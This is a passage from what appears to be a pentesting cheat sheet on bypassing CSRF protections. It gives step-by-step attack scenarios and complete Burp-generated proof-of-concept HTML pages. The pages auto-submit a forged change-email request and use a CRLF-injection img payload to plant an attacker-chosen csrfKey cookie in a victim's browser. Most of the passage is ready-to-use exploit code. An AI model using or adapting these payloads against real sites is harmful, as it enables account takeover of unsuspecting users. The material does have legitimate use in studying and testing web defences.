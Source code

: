          `<img src="https://abc.target.com/?search=test%0d%0aSet-Cookie:%20csrfKey=YOUR-CSRF-KEY%3b%20SameSite=None" onerror="document.forms[0].submit()">`
         
         - The whole csrf POC , be like..

          `<html>
		  <!-- CSRF PoC - generated by Burp Suite Professional -->
		  <body>
		  <script>history.pushState('', '', '/')</script>
		    <form action="https://abc.target.com/my-account/change-email" method="POST">
		      <input type="hidden" name="email" value="changed&#64;email12&#46;com" />
		      <input type="hidden" name="csrf" value="W8E0YwG5n23SdN6xJQXG6kvMwHeKY9Pk" />
		      <input type="submit" value="Submit request" />
		    </form>
		    <img src="https://abc.target.com/?search=test%0d%0aSet-Cookie:%20csrfKey=GBKiGXx7q5pFWopFJqfMCkKqyYMColhn%3b%20SameSite=None" onerror="document.forms[0].submit()">
		  </body>
		</html>` 
---
### 7) CSRF where token is duplicated in cookie -  

   1) Go the functionality, intercept the request
   2) Sometimes application tied the csrf token with `non-user sessions` with `same value in both`, like (`csrf-key,X-csrf-value: etc`.), in this case we need to somehow inject our cookie into the victim's browser this can be done by CRLF, where the url term is reflected in the form of response header.
   3) Suppose we had CRLF in the `search` functionality. 
   4) In this case, attack scenario be like....
         - Create an account, Account-A , navigate to functionality
         - Intercept the request from Account-A, since csrf token is tied to some kind of other csrf-key/value. 
         - We can take the advantage of CRLF in the `search` term functionality, we can inject our payload by turning case into `XSS to CSRF`, by using the below payload in the place of `auto-submit script` i..e `<script>document.forms[0].submit()</script>`

         `<img src="https://abc.target.com/?search=test%0d%0aSet-Cookie:%20csrfKey=YOUR-CSRF-KEY%3b%20SameSite=None" onerror="document.forms[0].submit()">`
         
         - Since there is no need of any specific value for csrf token and key, we can put `literally-anything as a value`, The application only verify the value is being same or not??, The whole csrf POC , be like..

           <html>
		  <!-- CSRF PoC - generated by Burp Suite Professional -->
		  <body>
		  <script>history.pushState('', '', '/')</script>
		    <form action="https://abc.target.com/my-account/change-email" method="POST">
		      <input type="hidden" name="email" value="changed&#64;email12&#46;com" />
		      <input type="hidden" name="csrf" value="literally-anything" />
		      <input type="submit" value="Submit request" />
		    </form>
		    <img src="https://abc.target.com/?search=test%0d%0aSet-Cookie:%20csrfKey=literally-anything%3b%20SameSite=None" onerror="document.forms[0].submit()">
		  </body>
		</html>      		
---
### Bypassing SAME-SITE cookie Restrictions
